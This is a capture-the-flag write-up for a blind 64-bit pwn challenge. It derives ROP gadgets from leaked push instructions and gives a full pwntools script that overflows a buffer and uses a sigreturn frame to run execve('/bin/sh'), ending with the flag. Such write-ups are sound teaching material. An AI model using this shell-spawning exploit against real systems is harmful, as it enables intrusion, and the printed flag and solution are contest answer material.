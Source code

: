 # Push Writeup

Remember those Sarah McLaughlan commercials about the puppies? We do. We made a blind challenge to remind you about the heartbreak.

0.cloud.chals.io:21978

Author: v10l3nt

## Overview

Upon connecting to the server, we get prompted by this:

![](./img/initial_prompt.png)

If we ask for more pushes, we get what seems to be push statements and a return, followed by what seems to be an address pointing to that instruction.

![](./img/all_addrs.png)

From the address length, I think it is safe to assume this is a 64 bit system. These instructions seem to be constant between runs while the address of them are not. There seems to be recurring values in these instructions: 0x0f05 and 0x58. Upon looking up these values, it seems as if 0x58 is equivalent to the `pop rax; ret` instruction whereas 0x0f05 are the opcodes for the `syscall` instruction. This isn't much to work with, but from what we're given, it seems as if the intended path from here is to cause a sigreturn!

A sigreturn is a syscall that makes the program pull bytes off of the stack and put them into EVERY register. If we control what gets put onto the stack, then we get to control every register! Since it seems we have arbitrary write because we don't get any warning about a size limit, we can write anything we want to the stack and, in turn, set every register to what we want!

## Planning

Since we are given a `/bin/sh` string address and we have a syscall instruction with a `pop rax` gadget, the easiest solution would be to call `execve` via syscall number 59 and pass the `/bin/sh` address into `rdi`.

## Execution

Now we have to figure out how to use these addresses. If I just wanted a `syscall; ret` ROP gadget, I would ideally want `0x0f 0x05 ret`. This can be found 2 bytes into the second instruction we are given (`push 0x0f050f05; ret`). To access this, we would have to return to the given addess + 2 to ignore the prior 0x0f 0x05 bytes. We have the same deal with the `pop rax; ret` gadget. With the first instruction we're given (`push 0x58585858; ret`), we can just ignore the first 3 0x58 bytes and just continue from the last 0x58 byte, giving us `0x58; ret`, which is just `pop rax; ret`!

Now that we have 2 gadgets, we can now focus on the sigreturn part. To cause a sigreturn, we need to put `0xf` into the `rax` register and then call `syscall`. Since we concluded this was a 64 bit system earlier, each address/register is 8 bytes. The next problem to solve is the amount of padding we need. To figure this out, I went ahead and put in inputs of increasing length to figure out when the program crashed. This would probably be the end of the base pointer. Here, we found out the length is 16, so there's probably a buffer of length 8 and then the base pointer inmmediately afterwards.

![](./img/buffer_fuzzing.png)

Since we know the bounds of the buffer, we can now attempt to blindly call the sigreturn.

From my pwn experience, we usually need to overwrite `rbp` after the buffer, which would be 8 bytes. 

Next, we have the `rip` register. This is where we will start the ROP chain. First, we need to call `pop rax; ret`. We'll add our offset address to the payload. Next, we need to pop 0xf into the `rax` register, so we'll put that on the stack next. Right after, we need to call `syscall`. We can add our address we got earlier to the chain, and that should be it!

Now I think it is important to note that we don't have any definitive proof that the sigreturn went off successfully, which is very unfortunate. Let's just continue as if we have it all working.

Now that a supposed sigreturn has been called, we need to create a sigreturn frame to push onto the stack after the `syscall` gadget to set all the registers to what we want. The goal is to call `execve('/bin/sh')`, so we need `syscall` in the `rip` register so it gets called next, `0x3b` in the `rax` register to use the `execve` syscall, and the `/bin/sh` string in `rdi` (the first argument of the call) to spawn the shell, and zeroes in the rest of the registers. Luckily, pwntools has a very nice way to create sigreturn frames, so this won't be too much of an issue.

```python
from pwn import *

context.arch = "amd64"

p = remote("0.cloud.chals.io", 21978)

p.recvuntil(b": ")

tmp = p.recvline().decode()
print(tmp)
BIN_SH = int(tmp.strip()[2:], 16)
print(f"/bin/sh: {hex(BIN_SH)}")

p.recvline()

p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 3
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 2
print(f"Syscall instruction: {hex(SYSCALL)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
p.recvuntil(b">>> ")

# Get 0xa into RAX to cause a Sigreturn
payload = b"A"*8
payload += b"B"*8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdx = 0
frame.rsi = 0
frame.rdi = BIN_SH
frame.rip = SYSCALL

payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Once we have the frame situated, we are ready to test it out! We can append the frame to the end of our previous payload and send it along with it. This is the result:

![](./img/no_shell.png)

Huh, we didn't get a shell... :/

Now time for the tweaking. There are a few places where we aren't 100% confident. We made the assumption that the address given with each instruction pointed to the start of the instruction. However, this could very well NOT be the case. To try and see if this is the underlying issue, lets just go ahead and add offsets to each address manually and test it out. One of the offset combinations resulted in a shell being popped!

```python
POP_RAX = int(tmp.decode().split("|")[1].strip()[2:], 16) + 6
print(f"pop rax: {hex(POP_RAX)}")
p.recvuntil(b">>> ")
p.sendline(b"Y")
tmp = p.recvline()
print(tmp.decode().strip())
SYSCALL = int(tmp.decode().split("|")[1].strip()[2:], 16) + 4
print(f"Syscall instruction: {hex(SYSCALL)}")
```
![](./img/shell.png)

It seems as if the working combination of offsets were 2 times what we had arrived as earlier, which is very strange. I'm not entirely sure why this was the case for this problem. Regardless, now we can go ahead and read the flag!

![](./img/flag.png)

Flag: `uscg{ch4ng3_and_gr0wth_is_s0_pa1nful}`